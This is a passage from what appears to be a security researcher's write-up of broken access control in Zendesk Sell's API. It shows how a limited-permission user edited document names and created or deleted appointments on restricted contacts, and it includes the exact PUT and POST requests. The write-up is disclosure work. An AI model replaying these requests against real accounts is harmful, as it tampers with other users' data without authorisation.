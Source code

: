 - Editing documents on contacts
 
```http
PUT /apis/uploader/api/v2/uploads/<upload_id>.json 
```
 
So we were able to affect the integrity of the documents as we were able to edit the names of documents and even change their extensions.


---

## Privilege escalations leads to add/remove appointments on restricted contacts.

Since zendesk allows users to collaborate on various functionalities in the app. This was accomplished by assigning different roles to different functions in the app. One role in the app was defined as *limitted permission user*, who has access to limited features in the app. The following user was *unable to create the contacts*, nor could he add any appointments to them.

{{1}}

But we were able to find an API path with *broken access controls*  that led the **limited user** to create and remove appointments with the *contacts* even though this functionality was restricted from the *said role*.

Thus, the limited user was successfully able to exploit this *API request* to create appointments with the contacts just by using their **contact id**.

```http
POST /apis/appointments/api/v1/appointments.json HTTP/1.1
Host: app.futuresimple.com
Connection: close
Content-Length: 255
x-interaction-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
Origin: https://app.futuresimple.com
x-parent-operation-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
x-csrf-token-generated-at: 1597815645
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
x-csrf-token-signature: <VALUE>
Referer: https://app.futuresimple.com/crm/contacts/288149956
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie:<VALUE>

{"appointment":{"contact_id":"<contact id>","start_at":"2020-08-17T00:00:00.000Z","end_at":"2020-08-17T23:59:59.999Z","is_public":false,"send_updates":true,"name":"New Appointment on Sunda","location":"New York","description":"","all_day":true}
```

The limited user was able to cancel/delete all of the appointments via the below `http request` by changing the **appointment id**.
